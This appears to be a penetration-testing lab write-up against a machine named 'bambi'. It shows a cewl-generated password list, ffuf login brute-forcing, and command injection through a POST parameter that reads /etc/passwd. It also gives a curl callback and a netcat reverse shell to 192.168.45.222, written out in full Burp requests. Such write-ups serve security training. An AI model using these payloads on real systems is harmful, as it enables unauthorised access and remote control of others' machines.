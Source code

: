 
#### 1. Credential Fuzzing (BAMBI)
- With usernames found on the machine `Sam, Devon, Johnny` utilized `cewl` to generate a password list against the website due to the website being strictly focused on a specific music hobby.
- Utilized `cewl` command below to create a custom password list with words taken off the `http://bambi` website
```bash
cewl --write passwords.txt http://bambi
```
once `passwords.txt` was created utilized `ffuf` with valid usernames to identify `login` credentials

```bash
ffuf -w passwords.txt -u http://bambi/dev/index.php -X POST -d 'username=Sam&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' 
```
-------
#### 2. LCE & RCE (BAMBI)
original payload for testing `LCE`
```http
POST /dev/admin.php HTTP/1.1

Host: bambi
Content-Length: 63
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bambi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bambi/dev/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=a3b6945256d08ae6372daaaca7b8c375
Connection: keep-alive

sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;cat+/etc/passwd
```
original payload for testing `RCE`:
```bash
curl http://192.168.45.222:80/bambi/
```
creating payload to get a reverse shell:
```bash
/bin/nc 192.168.45.222 1337 -e /bin/bash
```
full burpsuite payload with url encoding `CTRL+U`
```http
POST /dev/admin.php HTTP/1.1
Host: bambi
Content-Length: 88
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bambi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bambi/dev/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=a3b6945256d08ae6372daaaca7b8c375
Connection: keep-alive

sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;/bin/nc+192.168.45.222+1337+-e+/bin/bash
```



